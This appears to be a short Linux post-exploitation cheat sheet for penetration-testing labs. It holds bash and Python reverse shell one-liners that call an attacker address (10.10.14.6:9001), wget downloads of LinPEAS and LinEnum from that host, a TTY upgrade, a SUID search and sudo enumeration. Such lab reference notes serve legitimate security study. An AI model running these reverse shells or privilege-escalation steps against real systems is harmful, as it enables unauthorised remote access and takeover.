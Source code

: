 ```sudo -l```

```whoami```

```groups```

### Bash based reverse shell

```
bash -c 'bash -i >& /dev/tcp/10.10.14.6/9001 0>&1'
```

### Python based reverse shell

```
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("IP",1234));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/bash","-i"]);' &
```


### Upgrade Shell to TTY

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
```


# Searching through files

## Search specific word

```grep -n "WORD" /path/to/file(s)```

-n lists line number

-r - recursively check all files matching path

-B # - Prints this many lines before

-A # - Prints this many lines after

## Search for strings in file (or filesystem)

```
sudo strings /path/to/file
```


## LinPEAS

https://github.com/carlospolop/PEASS-ng/releases

Only need linpeas.sh

```
wget http://10.10.14.6/linpeas.sh
```
```
./linpeas.sh
```

## LinEnum

```
wget http://10.10.14.6/LinEnum.sh
```

## Search for SUID Bit files

SUID Bit - User executes the file with permissions of the file owner

```
find / -perm -u=s -type f 2>/dev/null
```


### Run command as specific user
```
sudo -u USER command
```

### Start shell as specific user
```
sudo -u USER bash -i
```

